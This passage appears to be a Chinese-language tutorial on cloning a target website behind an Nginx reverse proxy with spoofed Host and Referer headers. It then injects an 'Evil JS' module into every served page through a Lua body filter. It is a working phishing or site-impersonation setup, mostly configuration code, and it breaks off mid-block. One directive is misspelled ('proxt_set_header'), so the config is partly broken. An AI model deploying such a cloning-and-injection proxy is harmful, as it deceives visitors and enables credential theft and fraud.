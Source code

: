 [Nginx反向代理](https://docs.nginx.com/nginx/admin-guide/web-server/reverse-proxy/)配置起来非常简单。

```
location /some/path/ {
    proxy_pass http://www.example.com/link/;
}
```

`location`用于做URI匹配，当访问到`/some/path/`这个路径时，Nginx就代表客户端去访问`http://www.example.com/link/`，整个过程对客户端是完全透明的。

根据这个实例，可以直接写下第一部分，反向代理的配置了：

```
location / {
    proxy_pass http://www.example.com/link/;
}
```

访问根目录就等同于访问`http://www.example.com/link/`。

这里可能会产生一个问题，如果目标Web服务器对Host进行了判断，那么反向代理可能不会成功，因此需要将完美克隆的目标Host进行设置。

```
worker_processes  1;

error_log  logs/error.log error;    # 日志级别

events {
    worker_connections  1024;
}

http {
    server {
        listen    80;
        server_name example-1.com;
        location / {
            proxy_pass http://www.example.com/link/;
            proxt_set_header Host www.example.com;
            proxt_set_header Referer http://www.example.com/link/;
        }
    }
}
```

至此，就能完美克隆目标网站了。

### 注入模块化的Evil JS

使用`body_filter_by_lua_block`可以对网站内容进行修改，利用好这个功能，就能将JS文件引入到页面中。

```
header_filter_by_lua_block { ngx.header.content_length = nil}
                body_filter_by_lua_block{
                        local chunk, eof = ngx.arg[1], ngx.arg[2]
                        local buffered = ngx.ctx.buffered
                        if not buffered then
                           buffered = {}
                           ngx.ctx.buffered = buffered
                        end
                        if chunk ~= "" then
                           buffered[#buffered + 1] = chunk
                           ngx.arg[1] = nil
                        end
                        if eof then
                           local whole = table.concat(buffered)
                           ngx.ctx.buffered = nil
                           whole = whole .. "<script src='/7276df76835ed2272cc0e59f55e49902/static.js' type='module'></script>"
```